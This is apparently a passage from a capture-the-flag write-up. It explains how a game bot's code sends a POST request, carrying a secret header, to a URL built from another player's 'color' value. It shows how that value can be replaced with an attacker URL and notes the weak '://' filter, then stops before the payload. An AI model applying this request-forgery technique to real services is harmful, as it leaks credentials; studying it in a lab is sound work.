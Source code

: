 ```javascript
            //no-op
            break;
        case 4:
            try {
                let str = data.toString();
                let x = JSON.parse(str.slice(1, 4));
                let y = JSON.parse(str.slice(4, 7));
                let color = JSON.parse(str.slice(7));
                try {
                    color = color.replace('://', '')    //filtering
                } catch (err) { }

                console.log(`Logging opposing pixel placed at ${x}, ${y} with color ${color}`);
                axios(color, {
                    method: 'post',
                    data: { x, y }
                }).catch((err) => {});
            } catch (err) { console.error('error'); }
            break;
    }
});
```

As you can see, the bot player knows the secret that we want to leak. It abuses it to draw faster than other players, i.e. 1 pixel every 1 second instead of 10 seconds (cheater!). It is also implementing the case `data[0] == 4`.

As you can see, when the bot receives the message with `data[0] == 4`, it makes the following request:

```javascript
axios(color, {
    method: 'post',
    data: { x, y }
}).catch((err) => {});
```

This is a POST request to the `color` URL. However, the `color` comes from the server message, which in-turn comes from another player's message when the player overwrites the bot's drawing! So the `color` variable is tainted. A player can affect the URL to which the bot will make a request. And the bot includes the `Secret` header with the `secret` value in all its requests as seen by `axios.defaults.headers.common['Secret'] = secret`.

So, let's overwrite one of the bot's pixels with our own pixel and use a URL as a color. This is how a regular client -> server message looks like when we use the `black` color at `(x,y) = (196,152)`.

![to-server-reg.png](writeup-resources/to-server-reg.png)

So, we just replace the color with a URL:
